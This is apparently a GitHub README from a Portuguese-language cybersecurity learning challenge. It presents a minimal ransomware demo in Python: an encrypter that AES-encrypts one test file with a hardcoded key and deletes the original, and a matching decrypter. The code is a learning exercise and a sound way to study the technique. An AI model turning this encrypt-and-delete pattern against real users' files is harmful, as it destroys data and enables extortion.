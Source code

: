 # DevThallya-cibersecurity-desafio-ransomware

Projeto cibersegurança desafio ransoware

📌Encrypter:

import os
import pyaes

file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

os.remove(file_name)

key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

crypto_data = aes.encrypt(file_data)

new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()

📌Decrypter:

import os
import pyaes

file_name = "teste.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

os.remove(file_name)

new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()


🖼 Prints do Projeto:
![image](https://github.com/user-attachments/assets/3c0949f8-86ef-4781-af09-edc455520bfc)
![image](https://github.com/user-attachments/assets/86262f0d-5a89-46e3-bbc0-f95c990de673)
![image](https://github.com/user-attachments/assets/6b2c13f5-32d2-4750-bbf8-c2c801755416)
![image](https://github.com/user-attachments/assets/8fd0a18f-1323-433a-bd2a-0153d7b7fa0e)
![image](https://github.com/user-attachments/assets/d7a113f2-e517-41d1-a341-39bf31371dd4)



